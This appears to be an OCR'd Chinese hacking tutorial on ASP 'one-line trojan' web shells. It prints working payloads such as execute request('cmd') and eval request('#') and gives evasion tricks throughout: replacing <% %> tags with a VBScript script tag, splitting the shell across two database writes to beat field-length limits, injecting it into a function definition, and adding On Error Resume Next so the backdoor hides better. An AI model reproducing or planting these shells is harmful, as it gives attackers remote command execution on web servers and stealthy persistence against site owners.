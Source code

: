 123456789<%execute E%>

原来代码是<%execute request(“cmd”)%> 把标签修改替换下来 为

<scriptlanguage=VBScript runat=server>execute request(“cmd”) 这样就避开了<%,%>符号！

表中数据段限制，一句话木马也写不下的情况

网络中流传的最小的木马代码是<%eval request("#")%> 如过连这也写不下怎么办？

将木马分开写就好了！<%Y=request(“x”)%> <%execute(Y)%> 这样分开写提交到数据库就没问题了！

不过，在ACCESS数据库中新增加的数据物理位置是在旧数据之前的，所以要先写<%execute(Y)%>部分。写好后在客户端写密码时除了填写"x"以外的任何字符都可以，如果填了"x"就会出错！


插入一句话容易爆错
~~~

Sub unlockPost()


Dim id,replyid,rs,posttable


id=Request(“id”)


replyid=Request(“replyid”)


If Not IsNumeric(id) or id="" Then
~~~
改成
~~~

Sub unlockPost(<%eval request("#")%>)


Dim id,replyid,rs,posttable


id=Request(“id”)


replyid=Request(“replyid”)


If Not IsNumeric(id) or id="" Then
~~~
### 一句话木马到两句话木马的转型!
一句话木马服务端原型:<%execute request(“value”)%> ,

变形后:<%On Error Resume Next execute request(“value”)%> ,

至于为什么要用两句话木马呢,是由于使我们的后门更加隐蔽.

